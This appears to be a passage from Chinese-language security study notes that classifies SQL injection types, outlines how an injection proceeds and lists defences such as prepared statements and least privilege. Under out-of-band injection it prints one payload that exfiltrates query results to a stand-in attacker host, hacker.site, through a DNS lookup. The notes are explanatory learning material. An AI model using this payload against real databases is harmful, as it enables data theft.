 **分类**：

1. 根据有无回显

  - 普通注入：根据数据库提示的有价值的信息进行注入

  - 盲注（Blind SQL Injection）：没有提供详细错误信息，攻击者需要对表中的每个字段进行猜解。

2. 根据注入点类型

  - 数字型注入
  
  - 字符型注入

3. 其他分类

  - First Order Injection
    
    - In-band SQLi（攻击者能够使用相同的信道发起攻击并收集信息）
    - Union Select SQLi
    - Error-Based SQLi
    - Blind SQLi
    - Time-based SQLi
    - Out-of-band SQLi
      在 SQL 注入攻击中，攻击者的 Payload 代码成功执行了，但由于各种因素所致，结果无法通过 HTTP Response 来答复攻击者的 HTTP Request，攻击者也就无法从这种“信道”获取 Payload 产生的数据。而 OOB 中，攻击者通过构造特殊的 Payload，让受害主机向指定主机发送 HTTP 请求或 DNS 查询，而这些请求报文中携带了查询结果的数据。
      ```sql
      select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
      ```
  - Second Order Injection
  - Others
    - Stacked queries
    - Inline Queries


**注入过程**：

1. 客户端：参数值等数据被修改

2. 服务端：未经检查和过滤，将修改的数据注入到 SQL 语句中，SQL 语句功能被修改

3. 数据库引擎：执行被修改后的 SQL 命令

4. 服务端：将注入的结果返回给客户端

5. 客户端：根据上一次注入获取到的敏感信息构造注入语句进行进一步注入


**注入防范**：

1. 使用**预编译**语句，绑定变量。

2. 对用户提交的数据和输入参数进行严格的**过滤**。

3. 摒弃 SQL 语句，改用**存储过程**来访问和操作数据。

4. 使用**安全函数**：比如 OWASP ESAPI。

5. **最小权限**原则。


### 跨站脚本攻击 XSS
